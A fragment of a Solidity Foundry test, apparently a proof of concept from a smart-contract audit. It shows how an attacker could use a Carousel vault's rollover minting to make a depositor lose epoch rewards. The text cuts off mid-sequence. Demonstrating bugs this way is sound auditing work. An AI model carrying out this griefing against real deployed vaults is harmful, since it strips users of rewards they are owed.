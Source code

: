 ```solidity
            }
        );

        (address premium, address collateral, uint256 _marketId) = carouselFactory.createNewCarouselMarket(config);
        marketId = _marketId;
        premiumVault = Carousel(premium);
        collateralVault = Carousel(collateral);

        // creating the first two epochs, with the first one beginning and the second one queued:

        (epochId1,) = carouselFactory.createEpochWithEmissions(
            marketId,
            uint40(block.timestamp+10), // epochBegin
            uint40(block.timestamp+20), // epochEnd
            100,1_000e18,1_000e18
        );

        vm.warp(block.timestamp+10); // epoch 1 has started

        // 10 timestamp gap between the first epoch and the second epoch
        (epochId2,) = carouselFactory.createEpochWithEmissions(
            marketId,
            uint40(block.timestamp+20), // epochBegin
            uint40(block.timestamp+30), // epochEnd
            100,1_000e18,1_000e18
        );

        // first epoch resolved with nullEpoch as there are no deposits
        controllerPeggedAssetV2.triggerNullEpoch(marketId,epochId1);
        vm.stopPrank();
    }

    /// showcasing the bug/exploit
    function testRewardsGriefing() public {

        // showcasing how the functionality of the mintRollovers(..) function allows anyone to force a user
        // in a vault to forgo their rightful rewards, being forced to exchange their epochId tokens for 
        // epochId+1 tokens and losing their claim on the epochId rewards

        // attacker deposits funds into the premium vault
        vm.prank(attacker);
        premiumVault.depositETH{value:1e18}(
            epochId2,attacker
        );

        // user deposits funds into the collateral vault, also has funds in the rollover queue
        vm.prank(user1);
        collateralVault.depositETH{value:10e18}(
            epochId2,user1
        );
        vm.prank(user1);
        collateralVault.enlistInRollover(
            epochId2,10e18,user1
        );

        vm.warp(block.timestamp+20); // second epoch has started

        // create the third epoch
        vm.prank(admin);
        (uint256 epochId3,) = carouselFactory.createEpochWithEmissions(
```